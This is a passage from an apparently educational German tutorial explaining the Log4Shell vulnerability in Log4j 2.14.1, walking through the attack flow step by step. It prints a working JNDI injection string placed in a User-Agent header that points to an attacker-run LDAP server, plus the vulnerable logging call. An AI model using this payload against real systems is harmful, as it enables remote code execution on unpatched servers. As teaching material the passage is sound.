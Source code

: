 Nun muss nur noch ein Angreifer dafür sorgen, dass diese Zeichenkette in eine Log-Nachricht gelangt, z. B. durch Manipulation eines HTTP-Headers.

![Log4Shell-Ablauf](./Log4Shell-Ablauf.png)

Wie man auf dem Bild sieht, gibt es links den Angreifer, der einen eigenen LDAP-Server und Payload-Server hostet. Rechts ist die verwundbare Anwendung mit der Log4j Version 2.14.1. Der Ablauf des Angriffs ist wie folgt:

1. Ein Angreifer sendet eine HTTP-Anfrage an die Anwendung und trägt die oben gezeigte manipulierte Zeichenkette zum Beispiel in den `User-Agent`-Header ein:

   ```http
   User-Agent: ${jndi:ldap://ldap-server:1389/Exploit}
   ```

2. Die Anwendung loggt den `User-Agent`-Header:

   ```java
   logger.info("User-Agent: {}", request.getHeader("User-Agent"));
   ```

   Log4j erkennt `${jndi:...}`und führt automatisch einen **JNDI-Lookup** über das angegebene Protokoll `ldap` durch

3. Nun wird der LDAP-Service Provider aufgerufen, um die angegebene URL `ldap://ldap-server:1389/Exploit` aufzulösen.
